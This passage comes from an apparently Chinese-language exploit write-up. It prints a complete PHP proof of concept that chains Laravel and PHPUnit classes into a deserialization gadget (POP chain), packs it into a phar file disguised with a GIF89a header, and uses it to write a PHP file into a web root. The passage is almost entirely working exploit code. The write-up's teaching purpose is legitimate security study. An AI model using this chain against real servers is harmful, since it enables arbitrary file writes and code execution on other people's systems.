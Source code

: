 ```
namespace PHPUnitFrameworkMockObjectStub`{`
    class ReturnCallback
    `{`
        private $callback;
        public function __construct($callback)
        `{`
            $this-&gt;callback = $callback;
        `}`
    `}`
`}`;
namespace PHPUnitFrameworkMockObjectInvocation`{`
    class StaticInvocation`{`
        private $parameters;
        public function __construct($parameters)`{`
            $this-&gt;parameters = $parameters;
        `}`
    `}`
`}`;
namespace IlluminateBus`{`
    class Dispatcher`{`
        protected $queueResolver;
        public function __construct($queueResolver)`{`
            $this-&gt;queueResolver = $queueResolver;
        `}`
    `}`
`}`;
namespace`{`
    $function = 'file_put_contents';
    $parameters = array('/var/www/html/11.php','&lt;?php phpinfo();?&gt;');

    $staticinvocation = new PHPUnitFrameworkMockObjectInvocationStaticInvocation($parameters);
    $broadcastevent = new IlluminateBroadcastingBroadcastEvent($staticinvocation);
    $returncallback = new PHPUnitFrameworkMockObjectStubReturnCallback($function);
    $dispatcher = new IlluminateBusDispatcher(array($returncallback,'invoke'));
    $pendingbroadcast = new IlluminateBroadcastingPendingBroadcast($dispatcher,$broadcastevent);
    $o = $pendingbroadcast;

    $filename = 'poc.phar';// 后缀必须为phar，否则程序无法运行
    file_exists($filename) ? unlink($filename) : null;
    $phar=new Phar($filename);
    $phar-&gt;startBuffering();
    $phar-&gt;setStub("GIF89a&lt;?php __HALT_COMPILER(); ?&gt;");
    $phar-&gt;setMetadata($o);
    $phar-&gt;addFromString("foo.txt","bar");
    $phar-&gt;stopBuffering();
`}`;
?&gt;
```

我们再通过下面这张图片，来理清整个 **POP链** 的调用过程。
